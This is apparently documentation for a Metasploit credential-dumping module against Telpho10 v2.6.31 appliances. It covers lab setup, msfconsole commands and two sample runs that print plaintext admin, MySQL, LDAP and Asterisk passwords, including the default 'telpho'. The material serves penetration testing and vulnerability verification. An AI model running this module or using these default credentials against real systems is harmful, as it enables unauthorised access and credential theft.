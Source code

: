 ## Vulnerable Application

  Telpho10 v2.6.31 (32-bit Linux ISO image download [here](http://www.telpho.de/downloads/telpho10/telpho10-v2.6.31-SATA.iso)).

  Supporting documentation for this product can be found [here](http://www.telpho.de/downloads.php).

## Verification Steps

  The following steps will allow you to install and dump the credentials from a Telpho10 instance:

  1. Download the [Telpho10 ISO image](http://www.telpho.de/downloads/telpho10/telpho10-v2.6.31-SATA.iso) and install in a VM (or on a system)
    - note that the ISO will default to a German keyboard layout
    - note that the ISO expects a SATA hard drive (not IDE/PATA) for installation
  1. configure the Telpho10's IP address
    - edit /etc/networks/interfaces accordingly
  1. Start msfconsole
  1. Do: ```use auxiliary/admin/http/telpho10_credential_dump```
  1. Do: ```set RHOST <IP address of your Telpho10 instance> ```
  1. Do: ```run```
  1. You should see a list of the retrieved Telpho10 credentials

## Scenarios

  Example output when using this against a Telpho10 v2.6.31 VM:

  ```
$ ./msfconsole
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v4.12.36-dev-16fc6c1                 ]
+ -- --=[ 1596 exploits - 908 auxiliary - 273 post        ]
+ -- --=[ 458 payloads - 39 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use auxiliary/admin/http/telpho10_credential_dump
msf auxiliary(telpho10_credential_dump) > set RHOST 10.0.2.35
RHOST => 10.0.2.35
msf auxiliary(telpho10_credential_dump) > run

[*] Generating backup
[*] Downloading backup
[+] File saved in: /home/pbarry/.msf4/loot/20161028155202_default_10.0.2.35_telpho10.backup_185682.tar
[*] Dumping credentials

[*] Login (/telpho/login.php)
[*] -------------------------
[+] Username: admin
[+] Password: telpho

[*] MySQL (/phpmyadmin)
[*] -------------------
[+] Username: root
[+] Password: telpho

[*] LDAP (/phpldapadmin)
[*] --------------------
[+] Username: cn=admin,dc=localdomain
[+] Password: telpho

[*] Asterisk MI (port 5038)
[*] -----------------------
[+] Username: telpho
[+] Password: telpho

[*] Mail configuration
[*] ------------------
[+] Mailserver: 
[+] Username:   
[+] Password:   
[+] Mail from:  

[*] Online Backup
[*] -------------
[+] ID:       
[+] Password: 

[*] Auxiliary module execution completed
msf auxiliary(telpho10_credential_dump) > 
```

I navigated my browser to the admin page of the UI and changed some of the password values, then ran the module again to verify I see the updated values:

```
msf auxiliary(telpho10_credential_dump) > run

[*] Generating backup
[*] Downloading backup
[+] File saved in: /home/pbarry/.msf4/loot/20161028161929_default_10.0.2.35_telpho10.backup_044262.tar
[*] Dumping credentials

[*] Login (/telpho/login.php)
[*] -------------------------
[+] Username: admin
[+] Password: s3cr3t

[*] MySQL (/phpmyadmin)
[*] -------------------
[+] Username: root
[+] Password: telpho

[*] LDAP (/phpldapadmin)
[*] --------------------
[+] Username: cn=admin,dc=localdomain
[+] Password: ldaps3cr3t

[*] Asterisk MI (port 5038)
[*] -----------------------
[+] Username: telpho
[+] Password: asterisks3cr3t

[*] Mail configuration
[*] ------------------
[+] Mailserver: 
[+] Username:   
[+] Password:   
[+] Mail from:  

[*] Online Backup
[*] -------------
[+] ID:       
[+] Password: 

[*] Auxiliary module execution completed 
  ```

